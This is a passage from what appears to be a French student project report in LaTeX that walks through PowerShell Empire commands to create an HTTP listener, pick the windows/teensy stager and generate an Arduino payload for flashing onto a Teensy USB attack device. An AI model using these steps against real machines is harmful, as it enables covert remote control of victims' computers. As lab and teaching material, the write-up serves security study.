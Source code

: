 \begin{lstlisting}{language=bash}
> powershell-empire
\end{lstlisting}

Ensuite il faut choisir quel listener utiliser, nous allons utiliser le listener “http”, il faut donc taper:

\begin{lstlisting}{language=bash}
> uselistener http
\end{lstlisting}

Ensuite, on peut configurer ce module comme un module Metasploit, ici on va juste changer le port d’écoute en tapant:

\begin{lstlisting}{language=bash}
> set Port 9000
\end{lstlisting}

Puis pour executer le listener on tape:

\begin{lstlisting}{language=bash}
> execute
\end{lstlisting}

Après il faut choisir le mode de transmission, ici on va choisir la transmission par un Teensy, il faut donc taper:

\begin{lstlisting}{language=bash}
> usestager windows/teensy
\end{lstlisting}

Puis associer le stagers au listener en tapant:

\begin{lstlisting}{language=bash}
> set Listener http
\end{lstlisting}

Et enfin, générer le payload en tapant:

\begin{lstlisting}{language=bash}
> generate
\end{lstlisting}

Empire devrait afficher que le fichier de script Arduino a bien été créer:

\includegraphics[scale=0.8]{images/SEN_Projet_Image06.png}

Il ne nous reste plus qu’à le compiler et le transférez sur le Teensy, pour cela il faut 
revenir sur l’IDE Arduino et ouvrir le fichier précédemment créé, puis cliquez sur le bouton en haut à gauche de compilation/vérification:

